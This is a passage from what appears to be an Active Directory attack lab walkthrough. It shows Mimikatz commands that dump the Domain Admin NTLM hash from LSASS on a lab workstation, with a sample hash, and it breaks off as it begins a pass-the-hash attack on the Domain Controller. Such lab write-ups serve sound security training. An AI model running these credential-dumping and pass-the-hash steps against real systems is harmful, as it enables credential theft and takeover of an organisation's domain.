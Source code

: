 ### Extract the Domain Admin NTLM Hash

**Extract the NTLM Hash with Mimikatz**
We need to dump the NTLM hash of the **Domain** Administrator account on `win10adm`.

**Command:**

1. Run Mimikatz:

   ```text
        .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
       .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
       ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
       ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
       '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
        '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

      mimikatz #
   ```

2. In the Mimikatz console, enable debug privileges:

   ```bash
   privilege::debug
   ```

3. Dump the credentials from LSASS:

   ```bash
   sekurlsa::logonpasswords
   ```

**Explanation:**

- `privilege::debug`: Grants the necessary privileges to access system processes.
- `sekurlsa::logonpasswords`: Extracts authentication material from the Local Security Authority Subsystem Service (LSASS).

**Output Interpretation:**

Look for the Administrator account details:

```text
         * Username : domad
         * Domain   : ADLAB
         * NTLM     : cff48581d56085119bddffacfae51aeb
```

> **Note:** the NTLM hash value & close the win10adm window

---

### Use Pass-the-Hash to Access the Domain Controller

Now that we have the NTLM hash of the **Domain Admin** account (`domad`), we can use the **Pass-the-Hash (PTH)** attack to gain access to the Domain Controller (DC) and dump all Active Directory (AD) hashes. Follow the steps below:

1. **Run Pass-the-Hash with Mimikatz**:
   In the Mimikatz console (still on the compromised workstation), execute the **Pass-the-Hash** attack by running:
